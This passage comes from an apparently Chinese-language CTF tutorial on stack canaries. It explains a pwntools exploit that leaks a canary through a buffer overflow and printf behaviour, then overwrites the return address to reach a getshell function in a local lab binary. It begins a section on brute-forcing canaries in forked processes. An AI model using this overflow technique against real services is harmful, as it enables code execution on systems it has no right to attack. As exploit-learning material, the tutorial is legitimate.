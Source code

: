 可以发现每次进程启动的canary值都不一样；现在需要将canary的值泄露出来，因为这里存在栈溢出和格式化字符串漏洞，这样可以将canary当作buf的一部分进行输出

构造exp：

```plain
#-*- codingLutf-8 -*-
from pwn import *

context(os='linux',arch='i386',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
p = process('./canary1')
e = ELF('./canary1')
get_shell = e.sym['getshell']
#1 leak canary
p.recvuntil('Hello Hacker!')
payload = 'a'*100
p.sendline(payload)

p.recvuntil('a'*100)
canary = u32(p.recv(4))-0xa
log.info("Canary:"+hex(canary))

#bypass canary
payload = 'a'*100+p32(canary)+'a'*8+'a'*4+p32(get_shell)
p.sendline(payload)
p.interactive()
```

首先解释为什么第一个payload需要输入100个a，跟gdb调试的时候不一致？

因为printf碰到换行符会将缓冲区的字符输出，然后刷新缓冲区；输入100个a的原因正是将sendline添加的换行符溢出到canary的低字节，这样在printf输出的时候将100个a放到缓冲区后不会输出，会继续读取canary，由于小端存储，故会将canary的值也添加到缓冲区，再碰到换行，输出缓冲区的内容，这也是为什么在接受到输出后会减去0xa得到真实的canary(这里溢出的0xa占用canary的低字节，不会影响里面的值，**因为canary低字节为00**)

为什么第二个payload中间需要填充12个a？

观察加入canary后栈中的分配即可得到答案，前8个a是填充canary到ebp的8字节距离，而后面的4个a是填充esp

## 爆破Canary

### 原理

**每次进程重启的Canary不同，但是同一个进程中的不同线程的Canary是相同的，并且通过fork创建的子进程的Canary是相同的**

### 条件

与泄露Canary的条件一致，唯一的区别在于不存在合适的输出缓冲区字符串的函数

### 利用

查看保护:

```plain
qufeng@qufeng-virtual-machine:~/Desktop/CTF/pwn/stack/canary$ checksec bin1
[*] '/home/qufeng/Desktop/CTF/pwn/stack/canary/bin1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
